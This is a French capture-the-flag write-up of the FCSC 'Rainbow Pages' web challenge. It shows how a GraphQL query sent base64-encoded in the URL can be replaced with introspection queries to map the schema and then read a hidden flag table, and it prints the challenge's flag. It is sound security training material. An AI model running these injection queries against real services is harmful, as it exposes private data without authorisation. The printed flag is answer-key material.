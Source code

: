 # Rainbow Pages - 25 pts


# Énoncé 
>Nous avons développé une plateforme de recherche de cuisiniers. Venez la tester!
>
>URL : http://challenges2.france-cybersecurity-challenge.fr:5006/
>
>Format du flag : FCSC{xxxx}
>

## Introduction

Ce challenge est un des premiers challenges WEB, et porte sur une injection graphQL.


## Résolution

C'est parti ! Dans un premier temps, j'ai jeté un oeil à la page web, on ne remarque rien de particulier, j'effectue une première requête pour voir ce qu'il se passe :

![rainbow](../images/rainbow.JPG)

Nous avons donc une requête qui s'effectue sur le champ Name.

En interceptant la requête avec burp, on remarque qu'elle est construite ainsi :

```
GET /index.php?search=eyBhbGxDb29rcyAoZmlsdGVyOiB7IGZpcnN0bmFtZToge2xpa2U6ICIleSUifX0pIHsgbm9kZXMgeyBmaXJzdG5hbWUsIGxhc3RuYW1lLCBzcGVjaWFsaXR5LCBwcmljZSB9fX0= HTTP/1.1
```

En décodant le base64, cela donne : 

```
{ allCooks (filter: { firstname: {like: "%y%"}}) { nodes { firstname, lastname, speciality, price }}}
```
On se rend alors compte que la requête COMPLETE passe par l’URL, on devrait donc pouvoir y injecter ce qu'on veut. Après quelques recherches sur la technologie utilisée (graphQL) on trouve des requêtes à passer pour en apprendre plus.
Cette requête devrait nous permettre de lister le schéma de la base, avec le nom et la description de chaque requête disponible :

```
{ __schema { queryType { fields { name description }}}}
```

On envoie donc cette requête encodée en base64 et on obtient ce qu’on veut, l’architecture, avec des champs intéressants :

```
{"data":{"__schema":{"queryType":{"fields":[{"name":"query","description":"Exposes the root query type nested one level down. This is helpful for Relay 1 which can only query top level fields if they are in a particular form."},{"name":"nodeId","description":"The root query type must be a `Node` to work well with Relay 1 mutations. This just resolves to `query`."},{"name":"node","description":"Fetches an object given its globally unique `ID`."},{"name":"allCooks","description":"Reads and enables pagination through a set of `Cook`."},{"name":"allFlags","description":"Reads and enables pagination through a set of `Flag`."},{"name":"cookById","description":null},{"name":"flagById","description":null},{"name":"cook","description":"Reads a single `Cook` using its globally unique `ID`."},{"name":"flag","description":"Reads a single `Flag` using its globally unique `ID`."}]}}}}
```
On a une requête FlagById qui devrait nous servir, mais on ne peut pas y faire de requête pour le moment. Je fais une requête sur allFlags afin de récupérer le/les id avec la commande :

```
{ allFlags { nodes { id }}}
```

qui nous retourne : 

```
{"data" : {"allFlags" : {"nodes" : [{"id":1}]}}}
```

Il n'y a qu'un seul flag, qui a pour id 1. On doit effectuer une dernière requête avant, qui nous permet de lister les champs disponibles dans la table "Flag" :

```
{ __type(name: "Flag") { name fields { name }}} 
```

Cette commande nous donne l'indication qu'il existe un champ "flag". On effectue finalement une requête sur flagById en récupérant le champ flag, qui devrait nous donner le flag de validation :

```
{ flagById (id:1) { flag }}
```

**FLAG :  _FCSC{1ef3c5c3ac3c56eb178bafea15b07b82c4a0ea8184d76a722337dca108add41a}_**
